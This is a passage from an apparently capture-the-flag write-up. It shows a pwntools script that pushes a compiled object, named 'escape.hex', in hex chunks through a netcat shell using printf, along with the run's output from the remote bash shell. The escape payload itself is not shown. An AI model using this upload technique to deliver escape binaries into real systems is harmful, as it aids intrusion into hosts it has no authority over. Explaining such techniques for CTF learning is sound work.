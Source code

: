 Now we can use `split` to chunk it up into copy-pastable parts for the netcat shell. In the end I wrote a pwntools script for this after the CTF to do this for me.

```python
#!/usr/bin/env python3

from pwn import *

host = args.HOST or 'localhost'
port = int(args.PORT or 31337)


def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    return start_remote(argv, *a, **kw)

io = start()

CHUNK_SIZE = 3700 #chosen arbitrarily

so_object = open('escape.hex', 'r')

print("Sending chunks!")
chunk = so_object.read(CHUNK_SIZE)
while chunk:
    io.send(f'printf "{chunk}" >> a\n')
    chunk = so_object.read(CHUNK_SIZE)
so_object.close()

print("Chunks sent!")

io.interactive()
```

We can then use the script to upload the binary for us:
```bash
$ python3 send.py
[+] Opening connection to localhost on port 31337: Done
Sending chunks!
Chunks sent!
[*] Switching to interactive mode
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
--------------------------------------------------------------------------------
<f\x5f\x67\x6d\x6f\x6e\x5f\x73\x74\x61\x72\x74" >> a
<0\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00" >> a
<0\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00" >> a
<0\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00" >> a
<0\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00" >> a
<0\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00" >> a
<0\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00" >> a
<0\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00" >> a
<a\x52\x00\x01\x78\x10\x01\x1b\x0c\x07\x08\x90" >> a
<0\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00" >> a
<0\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00" >> a
<0\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00" >> a
<0\x00\x00\x07\x00\x00\x00\x00\x00\x00\x00\x17" >> a
<0\x00\x00\x00\x00\x00\x1f\x01\x00\x00\x12\x00" >> a
```